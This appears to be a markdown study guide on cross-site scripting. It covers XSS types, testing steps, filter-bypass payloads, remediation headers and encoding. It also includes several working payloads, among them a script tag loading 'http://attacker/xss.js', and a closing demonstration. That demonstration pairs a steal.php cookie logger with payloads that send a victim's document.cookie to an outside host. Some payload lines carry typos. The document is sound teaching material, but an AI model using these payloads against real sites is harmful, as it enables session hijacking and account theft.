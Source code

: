 # XSS

## Information
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

OWASP TOP 10: A7-Cross-Site Scripting (XSS)

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- **Stored XSS (Persistent XSS)**:
When an attacker injects malicious code into the vulnerable application and this content is permanently stored in a database. when victims visit a  vulnerable application page with the stored malicious code, that time their browser execute this code and victim get popup message.

- **Reflected XSS (Non-persistent)**:
When an attacker uses a malicious link, phishing email, or another social engineering technique to trap the victim into making a request to the server and this request contains malicious code. when victim click on link then browser receive a reply with the malicious code and executes it. 

- **DOM Based XSS**:
When the web application writes user input to the Document Object Model (DOM), then reads the data from the DOM and executes it in the browser.In DOM based XSS malicious code is not sent to the server which makes it difficult to detect by web application firewalls (WAFs).

## How to Test (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

   - https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
   - https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
   - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## XSS - Remediation     
### Server-Side validation
1. [x] ***X-XSS-Protection***
```
X-XSS-Protection: 0
X-XSS-Protection: 1
X-XSS-Protection: 1; mode=block
X-XSS-Protection: 1; report=<reporting-uri>
```
- ***0***	xss filter disabled
- ***1***	xss filter enabled and sanitized the page if attack detected
- ***1;mode=block***	xss filter enabled and prevented rendering the page if attack detected
- ***1;report=http://example.com/report_URI***	xss filter enabled and reported the violation if attack detected

2. [x] Use ***HTTPOnly*** cookie flag: `Set-Cookie: key=123081792183asjgdhasd; HTTPOnly`

3. [x] Implement ***Content Security Policy***: `Content-Security-Policy: default-src: 'self'; script-src: 'self' static.domain.tld`
It's a browser side mechanism which allows you to create source allow lists for client side resources of your web application, e.g. JavaScript, CSS, images, etc. CSP via special HTTP header instructs the browser to only execute or render resources from those sources

***Refrence:*** https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### Client(Application)/Server side validation

1. [x] HTML Encode Before Inserting Untrusted Data into HTML Element Content: `<body>...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.</body>`
2. [x] Attribute Encode Before Inserting Untrusted Data into HTML Common Attributes: `<div attr="...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.">content`
3. [x] JavaScript Encode Before Inserting Untrusted Data into JavaScript Data Values: `<script>alert('...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.')</script>'
4. [x] URL Encode Before Inserting Untrusted Data into HTML URL Parameter Values:`<a href="http://www.website.com?test=ENCODE UNTRUSTED DATA BEFORE PUTTING HERE">link</a>
`(when you want to put untrusted data into HTTP GET parameter value)


* https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet (XSS Prevention Cheat Sheet)
* https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet (DOM based XSS Prevention Cheat Sheet)
* https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks   (Functions to Validate your Data)

## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
